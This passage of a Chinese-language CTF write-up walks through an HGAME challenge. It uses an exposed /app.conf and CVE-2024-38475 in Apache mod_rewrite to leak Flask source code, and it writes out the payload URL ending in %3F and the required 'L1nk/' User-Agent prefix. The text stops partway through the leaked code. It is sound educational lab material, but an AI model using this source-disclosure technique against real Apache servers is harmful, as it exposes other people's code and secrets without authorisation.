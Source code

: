 ssti/条件竞争

![image-20250206164229496](../assets/image-20250206164229496.png)

/robots.txt有个/app.conf

![image-20250206164257706](../assets/image-20250206164257706.png)

访问/app.conf

![image-20250206164413970](../assets/image-20250206164413970.png)

这里展示了httpd.conf的片段

这里给出了源码的位置还有一个重写引擎的规则，猜测应该是该版本的apache存在源码泄露

同时在响应标头能找到Apache的版本信息

![image-20250206164739551](../assets/image-20250206164739551.png)

可以找到这个版本的apache存在源码泄露，而且是跟重写规则有关

CVE-2024-38475

![image-20250206165000233](../assets/image-20250206165000233.png)

网上没找到什么poc

但是可以找到漏洞发现者的一篇文章

https://blog.orange.tw/posts/2024-08-confusion-attacks-en/

![2dbfbdadba8694e40ae73db901c8c4e](../assets/2dbfbdadba8694e40ae73db901c8c4e.jpg)

根据这篇文章我们可以构造出paylaod

```
http://node1.hgame.vidar.club:31155/admin/usr/local/apache2/app/app.py%3F
```

这道题多了一个**RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"**，只需要在user-agent前面加上L1nk/即可

![image-20250206165543890](../assets/image-20250206165543890.png)

拿到源码

```python
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
	filename = pwd + "/tmp/message.txt"
	if os.path.exists(filename):
		f = open(filename, 'r')
		message = f.read()
		f.close()
		return message
	else:
		return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
	status = request.args.get('status')
```